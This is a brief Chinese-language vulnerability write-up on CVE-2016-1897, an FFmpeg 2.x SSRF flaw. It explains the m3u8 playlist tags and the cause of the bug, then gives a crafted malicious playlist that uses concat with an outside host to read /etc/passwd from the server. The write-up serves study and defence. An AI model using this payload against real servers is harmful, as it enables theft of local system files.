 # CVE-2016-1897 Ffmpeg ssrf

### 一、漏洞简介

CVE-2016-1897只能读取文件的第一行

* #EXTM3U 标签是m3u8的文件头，开头必须要这一行
* #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
* #EXT-X-VERSION:2 该标签可有可无
* #EXTINF:6, 表示该一段TS流文件的长度
* #EXT-X-ENDLIST 这个相当于文件结束符

### 二、漏洞影响

FFmpeg 2.x

### 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对concat的支持(https://url/ffmpeg-protocols.html#concat )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：


```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://dx.su/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```